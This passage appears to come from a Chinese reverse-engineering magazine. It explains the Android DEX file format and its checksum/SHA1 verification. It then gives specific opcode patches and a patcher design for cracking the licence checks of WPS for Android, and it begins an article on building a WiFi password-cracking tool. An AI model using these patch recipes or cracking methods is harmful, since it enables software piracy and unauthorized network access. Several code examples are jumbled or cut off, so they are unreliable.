| static_fields_size | uleb128 | the number of static fields defined in this item |
| instance_fields_size | uleb128 | the number of instance fields defined in this item |
| direct_methods_size | uleb128 | the number of direct methods defined in this item |
| virtual_methods_size | uleb128 | the number of virtual methods defined in this item |
| static_fields | encoded_field[static_fields_size] | the defined static fields, represented as a sequence of encoded elements |
| instance_fields | encoded_field[instance_fields_size] | represented as a sequence of encoded elements. The fields must be sorted by field_idx in increasing order. |
| direct_methods | encoded_method[direct_methods_size] | the defined direct (any of static, private, or constructor) methods, represented as a sequence of encoded elements. The methods must be sorted by method_idx in increasing order. |
| virtual_methods | encoded_method[virtual_methods_size] | the defined virtual (none of static, private, or constructor) methods, represented as a sequence of encoded elements. This list should not include inherited methods unless overridden by the class that this item represents. The methods must be sorted by method_idx in increasing order. |

表的前 4 个字段为相应的静态字段、实例字段、直接调用方法、虚方法的数目，后 4 个字段为各字段的偏移地址。

encoded_field 结构定义如下：

```c
struct encoded_field{
    uleb128 field_idx_diff;
    uleb128 access_flags;
};
```

encoded_method 结构定义如下：

```c
struct encoded_method{
    uleb128 method_idx_diff;
    uleb128 access_flags;
    uleb128 code_off;
};
```

上面的几个结构中引入了 uleb128 这类数据结构，uleb128 为无符号的 leb128，leb128 是为 Dalvik DEX 专门设计的一种数据结构，在“dalvik/docs/dex-format.html”文件中是这么描述的：

> Each LEB128 encoded value consists of one to five bytes, which together represent a single 32-bit value. Each byte has its most significant bit set except for the final byte in the sequence, which has its most significant bit clear. The remaining seven bits of each byte are payload, with the least significant seven bits of the quantity in the first byte, the next seven in the second byte and so on. In the case of a signed LEB128 (sleb128), the most significant payload bit of the final byte in the sequence is sign-extended to produce the final value. In the unsigned case (uleb128), any bits not explicitly represented are interpreted as 0.

看完描述理解起来还是有难度。在“dalvik\libdex\Leb128.h”文件中有 uleb128 实现代码，我们直接 code talks，下面是将 uleb128 转换为 int 的代码：

```c
DEX_INLINE int readUnsignedLeb128(const u1** pStream) {
    const u1* ptr = *pStream;
    int result = *(ptr++);
    if (result > 0x7f) {
        int cur = *(ptr++);
        result = (result & 0x7f) | ((cur & 0x7f) << 7);
        if (cur > 0x7f) {
            cur = *(ptr++);
            result |= (cur & 0x7f) << 14;
            if (cur > 0x7f) {
                cur = *(ptr++);
                result |= (cur & 0x7f) << 21;
                if (cur > 0x7f) {
                    cur = *(ptr++);
                    result |= cur << 28;
                }
            }
        }
    }
    *pStream = ptr;
    return result;
}
```

代码只处理了 5 字节，如果第一个字节最高位为 1，就将该字节低 7 位前面跟上下一个字节的低 7 位；如果下一个字节最高位为 1，同样去掉最高位后添加到前面的更高 7 位上，以此类推。下面以计算 0x88F33F 的 uleb128 为例，步骤如下：

0x88    0xF3    0x3F  
10001000 11110011 00111111

0x88 首字节为 1，第一轮运算：  
(10001000 & 1111111) \| ((11110011 & ...```
1111111) << 7) = 1000 | 11100110000000 =
11100110001000 = 0x3988

0xF3 首字节为 1，第二轮运算：
11100110001000 | ((00111111 & 1111111) << 14) =
111111000000000000000 = 0xFF988

0x3F 首字节为 0，计算结束，返回 0xFF988
```

```
1111111) << 7) = 1000 | 11100110000000 =
11100110001000 = 0x3988

0x7F 首字节为 0，第二轮运算后返回：
(11100110001000 << 18) >> 18 =
11111111111111111111111110001000 =
0xFFFFFF88

计算结束，返回 -0x88。
```

对于有符号的，leb128 为 sleb128，下面是 sleb128 转换为 int 的代码：

还有一种 uleb128p1 数据，它的值为 uleb128 减 1。回到刚才的分析上，6 个类对应的偏移量及计算的结果如下表所示。

```c
DEX_INLINE int readSignedLeb128(const u1** pStream)
{
    const u1* ptr = *pStream;
    int result = *(ptr++);

    if (result <= 0x7f) {
        result = (result << 25) >> 25;
    } else {
        int cur = *(ptr++);
        result = (result & 0x7f) | ((cur & 0x7f) << 7);
        if (cur <= 0x7f) {
            result = (result << 18) >> 18;
        } else {
            cur = *(ptr++);
            result |= (cur & 0x7f) << 14;
            if (cur <= 0x7f) {
                result = (result << 11) >> 11;
            } else {
                cur = *(ptr++);
                result |= (cur & 0x7f) << 21;
                if (cur <= 0x7f) {
                    result = (result << 4) >> 4;
                } else {
                    cur = *(ptr++);
                    result |= cur << 28;
                }
            }
        }
    }
    *pStream = ptr;
    return result;
}
```

| 地址 | 静态字段数 | 实例字段数 | 直接调用方法数 | 虚方法数 |
|---|---:|---:|---:|---:|
| 06BE | 0 | 0 | 1 | 2 |
| 06D0 | 0 | 0 | 1 | 0 |
| 06DA | 1 | 0 | 1 | 0 |
| 06E6 | 1 | 0 | 1 | 0 |
| 06F2 | 2 | 0 | 1 | 0 |
| 0700 | 0 | 0 | 1 | 0 |

encoded_field 与 encoded_method 的计算，根据前面 4 个字段的个数决定，如果为 0 就直接跳过，第一个计算的结果为方法数不为 0 的字段。6 个类的相关字段计算结果如下表所示。

| 类 | 静态字段索引 | 静态字段访问标志 | 实例字段索引 | 实例字段访问标志 | 直接调用方法索引 | 直接调用方法访问标志 | 直接调用方法代码偏移 | 虚方法索引 | 虚方法访问标志 | 虚方法代码偏移 |
|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|---:|
| 1 |  |  |  |  | 2 | 10001 | 2e8 | 3 | 1 | 300 |
| 1 |  |  |  |  |  |  |  | 1 | 1 | 318 |
| 2 |  |  |  |  | 6 | 10001 | 33c |  |  |  |
| 3 | 0 | 19 |  |  | 7 | 10001 | 354 |  |  |  |
| 4 | 1 | 19 |  |  | 8 | 10001 | 36c |  |  |  |
| 5 | 2 | 19 |  |  | 9 | 10001 | 384 |  |  |  |
| 5 | 1 | 19 |  |  |  |  |  |  |  |  |
| 6 |  |  |  |  | a | 10001 | 39c |  |  |  |

可以看出，如果每个字节的最高位均为 1，计算方法与计算无符号时是一样的，关键点在于对最高位不为 1 的字节的处理。下面以计算 0x887F3F 的 uleb128 为例，步骤如下：

```
0x88    0x7F    0x3F
10001000  01111111  00111111
0x88 首字节为 1，第一轮运算：
(10001000 & 1111111) | ((11110011 & ...)
```

接下来以第一个类的直接调用方法为例进行讲解，其他的类与方法大家自己推算。索引指向 DexMethodId 结构，访问标志指明了字段或方法的作用域，在“/dalvik/docs/dex-format.html”文件中的 access_flags Definitions 部分有完整的说明，另外在“\dalvik\libdex\DexFile.h”文件中也有定义，在列表中可以发现 10001 = ACC_PUBLIC。

ACC_CONSTRUCTOR，说明这个字段是 constructor 作用域，在代码偏移 **0x2e8** 处指向了一个 DexCode 结构，DexCode 结构如下：

```c
typedef struct tagDexCode {
    u2 registersSize;
    u2 insSize;
    u2 outsSize;
    u2 triesSize;
    u4 debugInfoOff; /* file offset to debug info stream */
    u4 insnsSize;    /* size of the insns array, in u2 units */
    u2 insns[1];
    /* followed by optional u2 padding */
    /* followed by try_item[triesSize] */
    /* followed by uleb128 handlersSize */
    /* followed by catch_handler_item[handlersSize] */
} DexCode;
```

Dalvik OpCodes 的大小与内容由最后的 insnsSize 与 insns 决定，0x2e8 指向的数据解析为：

```
registersSize 1
insSize      0
outsSize     1
triesSize    0
debugInfoOff 0x642
insnsSize    4
Insns        7010 0000 0000 0E00
```

到 `/dalvik/docs/dalvik-bytecode.html` 文件中翻看 OpCodes，得到 70 为 invoke-direct，格式为：

```
invoke-direct {vC, vD, vE, vF, vG}, meth@BBBB
A: argument word count (4 bits)
B: method reference index (16 bits)
C,G: argument registers (4 bits each)
```

指令格式编号为 35c，到 `/dalvik/docs/instruction-formats.html` 文件中查看 35c 的编码参数说明：

```
A|G|op BBBB F|E|D|C
[A=5] op {vC, vD, vE, vF, vG}, meth@BBBB
[A=5] op {vC, vD, vE, vF, vG}, type@BBBB
[A=4] op {vC, vD, vE, vF}, kind@BBBB
[A=3] op {vC, vD, vE}, kind@BBBB
[A=2] op {vC, vD}, kind@BBBB
[A=1] op {vC}, kind@BBBB
[A=0] op {}, kind@BBBB
```

- （1）7010 0000 0000 的意义。70 为 invoke-direct，A=1 使用 `[A=1] op {vC}, kind@BBBB`，G=0 表示使用 v0，BBBB=0000 表示 MethodId 索引为 0。
- F|E|D|C=0，在 DexHeader 中 DexMethodId 结构定义如下：

```c
struct DexMethodId {
    u2 classIdx;   /* index into typeIds list for defining class */
    u2 protoIdx;   /* index into protoIds for method prototype */
    u4 nameIdx;    /* index into stringIds for method name */
};
```

第一个字段指向 typeId 的索引，DexTypeId 结构如下：

```c
struct DexTypeId {
    u4 descriptorIdx;  /* index into stringIds list for type descriptor */
};
```

第二个字段指向 protoId 的索引，DexProtoId 结构如下：

```c
struct DexProtoId {
    u4 shortyIdx;      /* index into stringIds for shorty descriptor */
    u4 returnTypeIdx;  /* index into typeIds list for return type */
    u4 parametersOff;  /* file offset to type_list for parameter types */
};
```

descriptorIdx 与 shortyIdx 都指向了一个 DexStringId，也就是 DexHeader 中 stringIdsOff 相应的字符串位置，它的结构如下：

```c
struct DexStringId {
    u4 stringDataOff;  /* file offset to string_data_item */
};
```

回到刚才的分析，上面代码的 Method 的 methodIdx 为 0，在 DexHeader 中 methodIdsOff 指向 0x190，取得 classIdx 为 1，在 DexTypeId 中取得 descriptorIdx 为 1，得到最终字符串 `android/app/Activity`；取得 protoIdx 为 1，在 DexProtoId 取得 shortyIdx 为 0x11，得到最终字符串为 `V`；取得 nameIdx 为 0，得到最终字符串为 `<init>`。

- （2）0E00 查得 OpCodes 代表 return-void。综合上面的分析，得出最终的代码为：

```
invoke-direct {v0}, Landroid/app/Activity;.<init>()V  // method@0000
return-void
```

刚才添加的 add 方法为索引为 3 的虚方法，具体的分析步骤由于篇幅原因就不再给出了。照上面的方法自己推算。

现在看看 DexClassDef 结构的 classIdx 字段，根据图2所示，6 个类类型的索引分别为 3、4、5、6、7、8。下面开始还原这 6 个类，第一个类的 TypeId 为 3，TypeId 数据在 DexHeader 中可以找到大小为 0x0E，偏移为 0x108，到这里找到对应索引值为 06（索引从 0 开始计数）...

| TypeId | Class | SuperClass | SourceFile |
|---|---|---|---|
| 3 | Lcom/dex/android/HelloDEXActivity | Landroid/app/Activity | HelloDEXActivity.java |
| 4 | Lcom/dex/android/R$attr | Ldalvik/annotation/EnclosingClass | R.java |
| 5 | Lcom/dex/android/R$drawable | Ldalvik/annotation/EnclosingClass | R.java |
| 6 | Lcom/dex/android/R$layout | Ldalvik/annotation/EnclosingClass | R.java |
| 7 | Lcom/dex/android/R$string | Ldalvik/annotation/EnclosingClass | R.java |
| 8 | Lcom/dex/android/R | Ldalvik/annotation/EnclosingClass | R.java |

DEX 文件并不复杂，只是结构过多，索引过深罢了。还有一些结构限于篇幅就不列举出来了，大家自己可以通过查看 Android 源码中的“dex-format.html”文件继续分析。

如果没有工具来辅助分析 DEX 文件，手动会很累，在这里推荐使用 Android SDK 中自带的 dexdump.exe 与强大的静态反汇编工具 IDA PRO 6.1。它提供了字段、方法、字符串的解析与编号，代码的反汇编、交叉引用查看等功能，但对数据结构的完整解析支持得不够。为此，笔者将 DEX 文件中常用到的结构做成了 IDC 脚本，分析 DEX 文件前执行它，就可以将这些结构导入到 IDB 中了，以方便我们进一步分析，图3与图4为导入 IDC 后重新调整数据结构后的显示效果。

### 突破 DEX 验证

说完了标准 DEX 文件，再说说在文章开头所忽略的几个字段，即标准 DEX 格式前面的 DexOptHeader 字段与最后 DexLink* 下面的几个字段。它们在标准 DEX 文件中是不存在的，而是通过 dexopt 工具在后期添加上去的。

DexOptHeader 结构如下：

```c
struct DexOptHeader {
    u1 magic[8];
    u4 dexOffset;
    u4 dexLength;
    u4 depsOffset;
    u4 depsLength;
    u4 optOffset;
    u4 optLength;
    u4 flags;
    u4 checksum;
    ...
};
/* covering deps/opt */
/* pad for 64-bit alignment if necessary. */
};
```

```cpp
dexSHA1DigestToStr(pHeader->signature, tmpBuf2));
if (!(flags & kDexParseContinueOnError))
    goto bail;
} else {
    LOGV("+++ sha1 digest verified");
}
```

magic 值为 `dey\n036\0`，我通常把它叫做 DEY 文件，它表明 DEX 文件被优化对齐过。`dexOffset` 是指向 DEX Header 的偏移，一般为 DexOptHeader 结构大小 `0x28`。`dexLength` 为优化对齐后 DEX 文件大小，`depsOffset` 为 DEY 尾部依赖数据偏移，`depsLength` 为附加数据长度，`optOffset` 为优化后的数据表偏移，`optLength` 为其长度。最后的 `checksum` 字段用于校验（针对优化过的 DEX 文件）。

DEY 文件后面的依赖数据对验证作用不大，这里不再列出。

在安装 APK 程序时，有一个 APK 验证与对齐过程，通过 `dexopt` 工具完成。文档 `"/dalvik/docs/dexopt.html"` 中有完整介绍。`dexopt` 在优化前会先对 DEX 文件合法性进行检测。搜索 `"\dalvik\libdex\DexFile.cpp"` 可找到 `dexFileParse()`，其中调用 `dexComputeSHA1Digest()` 计算 SHA1，代码如下：

从代码中可以看出，`dexopt` 通过计算 DEX 文件的 SHA1，然后与 DexHeader 的 `signature` 字段比较验证。SHA1 计算步骤：跳过 DexHeader 的 `magic`、`checksum`、`signature` 三个字段，从第 4 个字段 `fileSize` 获取总长度并扣除前三字段长度，之后调用标准 SHA1 函数计算。

注释说明 SHA1 验证并非必须，它主要用于识别 DEX 文件是否被优化过。被优化或字节序变化后的 DEX 文件，SHA1 无法重新计算验证。

总结：SHA1 字段不验证 DEX 文件合法性，`checksum` 字段才用于合法性校验。在 Android 源码 Dalvik 目录下 `"\dalvik\libdex\DexFile.cpp"` 的 `dexFileParse()` 中可见 `dexComputeChecksum()` 用于 `checksum`；DEY 文件的 Checksum 验证调用 `dexComputeOptChecksum()`，代码如下：

```cpp
/*
 * Verify the SHA-1 digest. (Normally we don't
 * want to do this --
 * the digest is used to uniquely identify the original
 * DEX file, and
 * can't be computed for verification after the DEX is
 * byte-swapped
 * and optimized.)
 */
if (d.verifySignature) {
    unsigned char sha1Digest[kSHA1DigestLen];
    const int nonSum = sizeof(pHeader->magic) +
        sizeof(pHeader->checksum) +
        kSHA1DigestLen;

    dexComputeSHA1Digest(data + nonSum, length - nonSum, sha1Digest);
    if (memcmp(sha1Digest, pHeader->signature, kSHA1DigestLen) != 0) {
        char tmpBuf1[kSHA1DigestOutputLen];
        char tmpBuf2[kSHA1DigestOutputLen];
        LOGE("ERROR: bad SHA1 digest ...");
        dexSHA1DigestToStr(sha1Digest, tmpBuf1);
    }
}
```

```cpp
/*
 * Verify the checksum(s). This is reasonably quick,
 * but does require touching every byte in the DEX file.
 */
if (flags & kDexParseVerifyChecksum) {
    u4 adler = dexComputeChecksum(pHeader);
    if (adler != pHeader->checksum) {
        LOGE("ERROR: bad checksum ...");
        if (!(flags & kDexParseContinueOnError))
            goto bail;
    } else {
        LOGV("+++ adler32 checksum verified");
    }

    const DexOptHeader* pOptHeader = pDexFile->pOptHeader;
    if (pOptHeader != NULL) {
        adler = dexComputeOptChecksum(pOptHeader);
        if (adler != pOptHeader->checksum) {
            LOGE("ERROR: bad opt checksum ...");
        }
    }
}
```

```c
if (!(flags & kDexParseContinueOnError))
    goto bail;
else {
    LOGV("+++ adler32 opt checksum (%08x) verified", adler);
}

/* Compute the DEX file checksum for a memory-mapped DEX file. */
u4 dexComputeChecksum(const DexHeader* pHeader) {
    const u1* start = (const u1*) pHeader;
    uLong adler = adler32(0L, Z_NULL, 0);
    const int nonSum = sizeof(pHeader->magic) + sizeof(pHeader->checksum);
    return (u4) adler32(adler, start + nonSum, pHeader->fileSize - nonSum);
}

u4 dexComputeOptChecksum(const DexOptHeader* pOptHeader) {
    const u1* start = (const u1*) pOptHeader + pOptHeader->depsOffset;
    const u1* end = (const u1*) pOptHeader + pOptHeader->optOffset + pOptHeader->optLength;
    uLong adler = adler32(0L, Z_NULL, 0);
    return (u4) adler32(adler, start, end - start);
}
```

DEY 文件的 Checksum 验证比较简单，首先计算起始点为 `pOptHeader + pOptHeader->depsOffset`，然后计算出结尾点为 `pOptHeader + pOptHeader->optOffset + pOptHeader->optLength`，最后调用 `adler32` 来计算 Buffer 的检验值并与 DexOptHeader 的 Checksum 进行比较。

DEX 文件计算步骤也很清楚：跳过 DexHeader 的 magic、checksum，从第 3 个字段起从 fileSize 字段获得整个文件长度后减去前两个字段的长度得到需要计算的总数据长度，然后调用 `adler32` 标准算法计算数据的 checksum。

总结：DEX 文件验证通过 Adler32 计算出的 Checksum 进行，返回失败就意味着 DEX 文件是非法的，就会拒绝下一步的优化及安装动作。DEY 文件只验证依赖数据部分，对 DEY 文件中代码部分不进行验证。

在分析完 DEX 的验证步骤后，如何突破它已经不是难事了。破解方式可以有两种：

- 通过 DEX 分析工具（如 IDA PRO6.1）找到 APK 包中 classes.dex 的暴力破解点，然后用十六进制工具手动修改 DEX 文件，将 checksum 重新计算后写回去即可，而 SHA1 可以写回去，也可以不写，将修改完后的 DEX 文件重新添加进 APK 中，最后重新签名，安装测试即可。
- 通过 DEX 分析工具（如 IDA PRO6.1）找到软件安装到 `/data/dalvik-cache` 目录下相关的 DEY 文件（仍然是以 .dex 结尾）的暴力破解点，然后用十六进制工具手动修改 DEY 文件，重新复制回 `/data/dalvik-cache` 目录就破解成功了。

两种破解方法中第一种可以在 PC 端实现，第二种可以在 Android 设备上实现，直接读/写 `/data/dalvik-cache` 目录中相关 DEY 文件即可。

### Patcher 编写

下面以第一种破解方法来编写 Patcher，第二种方式很简单，就留给大家自己完成。目标程序选择了上次分析过的 WPS for android4.0.3 版，在 Android 应用程序破解入门一篇中，我们通过修改软件 3 个跳转达到了暴力破解软件的目的，今天我们不反编译 APK 而是通过手动修改 DEX 文件来试试能否破解。

使用工具 IDA PRO6.1，打开从 WPS APK 中解压出的 classes.dex 文件，打开 Exports 选项，定位到暴力破解的关键点分别为方法 14973、14974、14981，如图 5 所示。

图 5

双击 14973 这行，需要将 250acc 这行的“if-eqz v0, loc_250B02”改成“if-nez v0, loc_250B02”，if-eqz Opcode 为 3800，if-nez 改为 3900，因此此处修改就是将 250acc 处的 3800 改为 3900。同样 14974 行是将 250b88 处的 3800 改为 3900，而 14981 行是改 0509d4 处的“if-eqz v0, loc_2509E8”为“if-eqz v0, locret”。“if-eqz v0, loc_2509E8”的 Opcodes 为 38000a00，这里需要改的是偏移，最新的 Opcode 每个都占两字节，偏移量以 Opcode 数计算，因此计算偏移量的方法为（locret-loc_2509E8）/2=(250a60-2509d4)/2=8c/2=46，因此这里的修改需要将 2509d4 处的 38000a00 改成 38004600，记下偏移量与需要修改的值。

下面开始编码来计算与重新设置 DEX 文件的 adler32 与 sha1，新建 VC 工程 WSPatcher，新建一个 DEX 处理类，类成员如下：

```cpp
class CDexHelper
{
private:
    CFile m_DexFile;
    DexHeader m_Header;
    unsigned char m_Sha1Buffer[20];
    UINT m_Adler32;
protected:
    void GetRealSHA1();
    void GetRealAdler32();
public:
    CDexHelper(const char* szFileName);
    ~CDexHelper(void);
    bool CheckSignature();   // 验证magic
    bool CheckSHA1();        // 验证sha1
    bool Checkadler32();     // 验证adler32
    CString GetAdler32String(); // 返回计算出的Adler32字符串值
    CString GetSha1String();    // 返回计算出的Sha1字符串值

    void ResetSHA1();            // 重新写入sha1
    void ResetAdler32();         // 重新写入adler32
    bool CheckBytes(int DexOffset, const unsigned char* srcBuffer, int len); // 验证字节
    void WriteBytes(int DexOffset, const void* Buffer, int len);              // 写字节
    void ReadBytes(int DexOffset, void* outBuffer, int len);                  // 读字节
};
```

这个类提供了 DEX 文件检查与设置 Adler32、SHA1 及打补丁等功能，里面用到的 DEX 文件结构直接从“\dalvik\libdex\DexFile.h”文件中提取。具体的实现代码限于篇幅就不列出来了，大家可以参看附件中的完整源码。WPSPatcher 运行效果如图 6 所示。

图 6

文章到这里就告一段落了。当初为了找到 APK 的补丁方法，前前后后花了不少时间，也向一些网友请教过，都没有结果。冷静下来，将 DEX 文件结构学习了一遍，最终找到了 APK 程序的补丁方法。通过这件事，想告诉大家，技术之路本来就是一个痛苦的探索过程，要有耐心，学会持之以恒，不要遇到难点就退缩。最后，文中如果有任何的疑问与错误的地方，欢迎大家与笔者进行讨论。

## 安卓 WiFi 密码破解

### 工具编写初探

图/文 非虫

最近，在好几个安卓手机群里面都看到有朋友寻求 WiFi 密码破解工具，在网上经过一番搜索后发现居然没有这样的软件，这让我感到很奇怪，难道这样的功能实现起来很难？思索再三，决定探个究竟。

看来只能从手机 WiFi 的连接过程着手了。掏出手机，进入“设置”->“无线和网络设置”->“WLAN”，这时手机会自动搜索附近的 WiFi 热点，单击任意一个加密的热点都会弹出密码输入框，如图 1 所示。

图 1

### 1. 安卓 WiFi 原理浅析

首先到 SDK 中查看 WiFi 操作的相关类。WiFi 的支持是在 `android.net.wifi` 包中提供的。里面有 `WifiManager`、`WifiInfo`、`WifiConfiguration` 与 `ScanResult` 等几个常用的类，WiFi 的管理通过 `WifiManager` 来操作，仔细一看还真让人郁闷，这个类没有提供连接 WiFi 的方法，倒是有 `disconnect()` 方法来断开连接，不过有个 `reconnect()` 方法倒是值得注意，只是该方法在 SDK 中却没有详细的介绍。在谷歌中搜索安卓连接 WiFi 的代码又测试失败，心里顿时凉了一截。看来要想完成这个功能还得下一番功夫。

转念一想，安卓会不会把这样的接口隐藏了，通过 AIDL 的方式就可以访问呢？为了验证我的想法，我开始在安卓源代码的“frameworks”目录中搜索以 aidl 结尾的文件，最终锁定“IWifiManager.aidl”文件，用 EditPlus 打开它，发现 `IWifiManager` 接口里面也没有提供连接 WiFi 的方法。这条线索也断了！

输入任意长度大于或等于 8 位的密码后单击“连接”按钮，此时手机就会去连接该热点，如果验证失败，就会提示“密码错误，请重新输入正确的密码并且再试一次”，如图 2 所示。

如果此时更换密码后再试一次仍然失败的话，手机就不会再访问该热点并将该 WLAN 网络设为禁用。

既然在手机设置里可以连接 WiFi，那么说明设置里面就有连接 WiFi 的代码存在。

手机设置这一块是作为安卓手机的一个软件包提供的，它的代码位于安卓源码的“packages\apps\Settings”目录中，为了弄清楚操作流程，我决定到源码中查看相关代码。首先根据文件名判断打开“`packages\apps\Settings\src\com\android\settings\wifi\WifiSettings.java`”文件，可以看到 `WifiSettings` 类继承自 `SettingsPreferenceFragment`，`SettingsPreferenceFragment` 类使用一系列的 `PreferenceScreen` 作为显示的列表项，现在很多软件都用它来作为自身的设置页面，不仅布局更简单，而且也很方便。

这段代码注册了一个广播接收者，接收一系列的广播事件。当 WiFi 功能开启或关闭时会收到 `WIFI_STATE_CHANGED_ACTION` 事件，当手机扫描到有可用的 WiFi 连接时会收到 `SCAN_RESULTS_AVAILABLE_ACTION` 事件，当连接请求状态发生改变时会收到 `SUPPLICANT_STATE_CHANGED_ACTION` 事件，当网络状态发生变化时会收到 `NETWORK_STATE_CHANGED_ACTION` 事件，对于其他的事件我们不用去关心，广播接收者调用 `handleEvent()` 方法对所有的事件进行判断并处理，事件处理代码如下：

图 2

找到 `WifiSettings` 的构造函数，代码如下：

```java
public WifiSettings() {
    mFilter = new IntentFilter();
    mFilter.addAction(WifiManager.WIFI_STATE_CHANGED_ACTION);
    mFilter.addAction(WifiManager.SCAN_RESULTS_AVAILABLE_ACTION);
    mFilter.addAction(WifiManager.NETWORK_IDS_CHANGED_ACTION);
    mFilter.addAction(WifiManager.SUPPLICANT_STATE_CHANGED_ACTION);
    mFilter.addAction(WifiManager.CONFIGURED_NETWORKS_CHANGED_ACTION);
    mFilter.addAction(WifiManager.LINK_CONFIGURATION_CHANGED_ACTION);
    mFilter.addAction(WifiManager.NETWORK_STATE_CHANGED_ACTION);
    mFilter.addAction(WifiManager.RSSI_CHANGED_ACTION);
    mFilter.addAction(WifiManager.ERROR_ACTION);
    mReceiver = new BroadcastReceiver() {
        @Override
        public void onReceive(Context context, Intent intent) {
            handleEvent(context, intent);
        }
    };
    mScanner = new Scanner();
}
```

```java
private void handleEvent(Context context, Intent intent) {
    String action = intent.getAction();
    if (WifiManager.WIFI_STATE_CHANGED_ACTION.equals(action)) {
        updateWifiState(intent.getIntExtra(WifiManager.EXTRA_WIFI_STATE,
                WifiManager.WIFI_STATE_UNKNOWN));
    } else if (WifiManager.SCAN_RESULTS_AVAILABLE_ACTION.equals(action)
            || WifiManager.CONFIGURED_NETWORKS_CHANGED_ACTION.equals(action)
            || WifiManager.LINK_CONFIGURATION_CHANGED_ACTION.equals(action)) {
        updateAccessPoints();
    } else if (WifiManager.SUPPLICANT_STATE_CHANGED_ACTION.equals(action)) {
        if (mConnected.get()) {
            updateConnectionState(WifiInfo.getDetailedStateOf((SupplicantState)
                    intent.getParcelableExtra(WifiManager.EXTRA_NEW_STATE)));
        }
        if (mInXlSetupWizard) {
            ((WifiSettingsForSetupWizardXL)getActivity()).onSupplicantStateChanged(intent);
        }
    } else if (WifiManager.NETWORK_STATE_CHANGED_ACTION.equals(action)) {
        NetworkInfo info = (NetworkInfo) intent.getParcelableExtra(
                WifiManager.EXTRA_NETWORK_INFO);
        mConnected.set(info.isConnected());
        changeNextButtonState(info.isConnected());
        updateAccessPoints();
        updateConnectionState(info.getDetailedState());
    }
}
```

## Android远程监控技术

代码中分别调用 `updateWifiState()`、`updateConnectionState()`、`updateAccessPoints()` 等方法进行更新操作，同样先查看 `updateAccessPoints()` 方法，代码如下：

```java
private void updateAccessPoints() {
    final int wifiState = mWifiManager.getWifiState();
    switch (wifiState) {
        case WifiManager.WIFI_STATE_ENABLED:
            // AccessPoints are automatically sorted with TreeSet.
            final Collection<AccessPoint> accessPoints = constructAccessPoints();
            getPreferenceScreen().removeAll();
            if (mInXlSetupWizard) {
                ((WifiSettingsForSetupWizardXL)getActivity()).onAccessPointsUpdated(
                    getPreferenceScreen(), accessPoints);
            } else {
                for (AccessPoint accessPoint : accessPoints) {
                    getPreferenceScreen().addPreference(accessPoint);
                }
            }
            break;
        ...
    }
}
```

```java
super(context);
setWidgetLayoutResource(R.layout.preference_widget_wifi_signal);
loadResult(result);
refresh();
}

AccessPoint(Context context, Bundle savedState) {
    super(context);
    setWidgetLayoutResource(R.layout.preference_widget_wifi_signal);
    mConfig = savedState.getParcelable(KEY_CONFIG);
    if (mConfig != null) {
        loadConfig(mConfig);
    }
    mScanResult = (ScanResult) savedState.getParcelable(KEY_SCANRESULT);
    if (mScanResult != null) {
        loadResult(mScanResult);
    }
    mInfo = (WifiInfo) savedState.getParcelable(KEY_WIFIINFO);
    if (savedState.containsKey(KEY_DETAILEDSTATE)) {
        mState = DetailedState.valueOf(savedState.getString(KEY_DETAILEDSTATE));
    }
    update(mInfo, mState);
}
```

成功开启 WiFi，即 `getWifiState()` 返回为 `WIFI_STATE_ENABLED` 时首先会调用 `constructAccessPoints()`，在这个方法中调用 `mWifiManager.getConfiguredNetworks()` 与 `mWifiManager.getScanResults()` 来分别获取已保存并可用的 WiFi 热点网络，接着判断 `mInXlSetupWizard` 并调用 `onAccessPointsUpdated()` 或 `addPreference(accessPoint)`。这两者的操作都是往页面添加并显示搜索到的 WiFi 热点网络，用于区分调用者是大屏手机还是平板电脑（`mInXlSetupWizard` 意思为是否为大屏幕的设置向导，这个结论由长时间分析所得，Xl=XLarge）。AccessPoint 的构造函数有 3 个，代码如下：

上面的两个构造函数分别针对调用 `mWifiManager.getConfiguredNetworks()` 与 `mWifiManager.getScanResults()` 得来的结果调用 `loadConfig(WifiConfiguration config)` 与 `loadResult(ScanResult result)`，经过这一步后，AccessPoint 的成员变量也初始化完了，然后调用 `refresh()` 方法进行刷新显示操作。代码我就不贴了，主要就是设置显示 SSID、SSID 的加密方式、信号强度等。显示工作做完后，我们的重点应转向 WiFi 热点网络点击事件的处理。点击事件的处理同样在 `WifiSettings.java` 文件中，代码如下：

```java
AccessPoint(Context context, WifiConfiguration config) {
    super(context);
    setWidgetLayoutResource(R.layout.preference_widget_wifi_signal);
    loadConfig(config);
    refresh();
}

AccessPoint(Context context, ScanResult result) {
    ...
}
```

```java
@Override
public boolean onPreferenceTreeClick(PreferenceScreen screen, Preference preference) {
    if (preference instanceof AccessPoint) {
        mSelectedAccessPoint = (AccessPoint) preference;
        /** Bypass dialog for unsecured, unsaved networks */
        if (mSelectedAccessPoint.security == AccessPoint.SECURITY_NONE
                && mSelectedAccessPoint.networkId == INVALID_NETWORK_ID) {
            mSelectedAccessPoint.generateOpenNetworkConfig();
            mWifiManager.connectNetwork(mSelectedAccessPoint.getConfig());
        }
    }
}
```

```java
fig0);
...
} else {
    showConfigUi(mSelectedAccessPoint, false);
}
...
} else {
    return super.onPreferenceTreeClick(screen, preference);
}
return true;
}
```

```java
ap = new AccessPoint(getActivity(), mAccessPointSavedState);
// For repeated orientation changes
mDlgAccessPoint = ap;
...
// If it's still null, fine, it's for Add Network
mSelectedAccessPoint = ap;
mDialog = new WifiDialog(getActivity(), this, ap, mDlgEdit);
return mDialog;
}
```

这段代码很简单，如果 WiFi 没有加密，直接调用 `mSelectedAccessPoint.generateOpenNetworkConfig()` 生成一个不加密的 `WifiConfiguration`，代码如下：

```java
protected void generateOpenNetworkConfig() {
    if (security != SECURITY_NONE)
        throw new IllegalStateException();
    if (mConfig != null)
        return;
    mConfig = new WifiConfiguration();
    mConfig.SSID = AccessPoint.convertToQuotedString(ssid);
    mConfig.allowedKeyManagement.set(KeyMgmt.NONE);
}
```

代码首先新建 `WifiConfiguration` 赋值给 `mConfig`，然后设置 `allowedKeyManagement` 为 `KeyMgmt.NONE` 表示不使用加密连接。这个工作完成后调用了 `mWifiManager` 的 `connectNetwork()` 方法进行连接。继续分析，如果是加密的 WiFi，就调用 `showConfigUi()` 方法来显示密码框；对于大屏手机，即 `mInXlSetupWizard` 为真时，调用 `WifiSettingsForSetupWizardXL` 类的 `showConfigUi()` 方法；如果为假就直接调用 `showDialog(accessPoint, edit)` 显示对话框，代码如下：

```java
private void showDialog(AccessPoint accessPoint, boolean edit) {
    if (mDialog != null) {
        removeDialog(WIFI_DIALOG_ID);
        mDialog = null;
    }
    // Save the access point and edit mode
    mDlgAccessPoint = accessPoint;
    mDlgEdit = edit;
    showDialog(WIFI_DIALOG_ID);
}
